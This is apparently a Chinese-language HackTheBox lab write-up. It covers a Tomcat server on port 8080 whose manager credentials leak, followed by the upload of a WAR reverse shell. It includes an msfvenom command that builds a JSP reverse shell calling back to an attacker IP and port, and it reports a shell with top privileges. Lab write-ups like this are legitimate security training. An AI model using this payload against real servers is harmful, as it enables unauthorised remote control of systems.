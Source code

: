 ```yaml
---
UID: 20250621133736
aliases: 
tags:
  - 靶场
  - 打靶
  - windows
  - hackthebox
source: 
cssclasses: 
created: 2025-06-21
---
```

![image.png](https://s2.loli.net/2025/06/21/vePFNrjIm3ZEw6c.png)

## 端口扫描
![image.png](https://s2.loli.net/2025/06/21/Qav2lDAfLwF3mKB.png)

只有一个 8080 端口

## web 服务信息收集
这是个 tomcat，看看有什么能利用的漏洞吗
![image.png](https://s2.loli.net/2025/06/21/jrzUlyF5DMda3Ye.png)

点击 manager app 可以发现要输入账密。随便输点东西就会爆出账密
![image.png](https://s2.loli.net/2025/06/21/5JmEYzDXckyZupC.png)

## 上传反弹 shell
进入管理界面，我们可以考虑一波。上传 war 的反弹 shell
![image.png](https://s2.loli.net/2025/06/21/5KMGpnQujBCt2sX.png)

用 msfvennom 制作木马
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.12 LPORT=8888 -f war -o shell.war
```

![image.png](https://s2.loli.net/2025/06/21/byXCckwUJi7PNML.png)


![image.png](https://s2.loli.net/2025/06/21/HFIcts9KQuqU3pf.png)

反弹 shell 成功

![image.png](https://s2.loli.net/2025/06/21/fyAKjGzdN1VMETx.png)

还是最高权限的用户

## 找 flag
![image.png](https://s2.loli.net/2025/06/21/Jq9puZfNOUDBkgL.png)



